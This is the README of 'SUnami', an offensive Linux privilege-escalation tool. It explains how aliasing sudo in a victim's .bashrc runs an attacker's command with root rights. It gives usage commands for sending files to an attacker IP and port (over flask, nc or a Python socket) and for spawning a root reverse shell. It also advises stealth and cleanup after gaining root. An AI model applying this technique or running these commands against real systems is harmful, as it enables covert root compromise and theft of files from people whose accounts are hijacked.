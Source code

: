 # SUnami
 Struggling with linux priveledge escelation? well then its time to cheese it with SUnami.  
 0 interaction privesc is always recommended but not always achievable. For this reason we have created a tool for the most trivial priv esc in history (with a few drawbacks).  
 This is not an exploit just a cheap but effective trick. The usecase is when you have a shell on a sudoers account but no sudo cred.  
 It works by manipulating sudo via aliasing in their .bashrc file to prepend a malicious attacker specified command first in the background.  
 This does mean you will need to wait for sudo to be executed.  
 flags denoted with -- are required. with - optional.  
 the -local flag denotes that you want sunami to modify the .bashrc file on the current machine instead of producing output (not suggested for stealth reasons).
 
 # Notice
 using the shells and socket based exfil will throw an error in the targets shell if your listener isn't active. be sure to clean up after gaining root. For the most stealth will file exfil we suggest the built in flask server.
 

# File Exfiltration
I used passwd so as not to leak my hash for this demo but rest assured you can read whatever file you wish
![image](https://github.com/witchdocsec/SUnami/assets/107813117/a7f26322-5fca-4030-9725-13dc5a02ac44)  
## useage:
  python3 sunami.py exfilfile [-local {1,0}] [--file FILE] [--method {postflask,nc,pysocket}] [--ip IP] [--port PORT]
# Root Shell
![image](https://github.com/witchdocsec/SUnami/assets/107813117/06000a59-b7da-45f3-8258-89618aa02a1f)
## useage:
  sunami.py genshell [-local {1,0}] [--ip IP] [--port PORT] [-shell SHELL] [-protocol PROTOCOL] [-listen {1,0}]
  
  
